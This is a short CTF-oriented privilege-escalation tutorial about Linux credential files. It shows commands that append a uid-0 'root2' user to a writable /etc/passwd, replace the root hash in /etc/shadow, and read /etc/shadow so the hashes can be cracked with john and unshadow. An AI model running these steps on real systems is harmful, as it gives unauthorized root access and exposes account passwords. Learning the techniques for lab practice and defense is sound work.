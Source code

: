 # /etc/shadow & /etc/passwd

in a real life scenario its really uncommon to see /etc/passwd or /etc/shadow files with write access for any user other than root.

the methods shown here are mostly seen in easy or intermediate level CTFs but its still good to know these.

## <mark style="color:red;">Add /etc/passwd new root user</mark>

if we have write permission to /etc/passwd we can add a new root user with password hash and the right format\
\
first we create a hash for our root user password:\
\
`openssl passwd evil`\
`echo "root2:[password hash]:0:0:root:/root:/bin/bash" >> /etc/passwd`

now login using the new root account:

![](../../../.gitbook/assets/etc1.png)

## <mark style="color:red;">Change the /etc/shadow root hash</mark>

if we have write access to /etc/shadow file we can add a new password hash for the root user:

#### `mkpasswd -m sha-512 “new password”`

replace the root hash with this new hash and login:

![](../../../.gitbook/assets/etc2.png)

## <mark style="color:red;">Hash cracking</mark>

if the /etc/shadow is readable copy the root user hash to the local system:

#### `ls -l /etc/shadow` `head -n 1 /etc/shadow`

Crack the password hash using john:

#### `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` `john --format=sha512crypt hash.txt --show`

#### `unshadow /etc/passwd /etc/shadow > hash`

{% hint style="info" %}
**`if the "unshadow" command ins not available on target system just copy the content of both files to your own machine and run unshadow on them or just install the unshadow tool on victim machni using apt. remember the order of files is important when unshadowing. /etc/passwd is always first and then there is /etc/shadow.`**
{% endhint %}
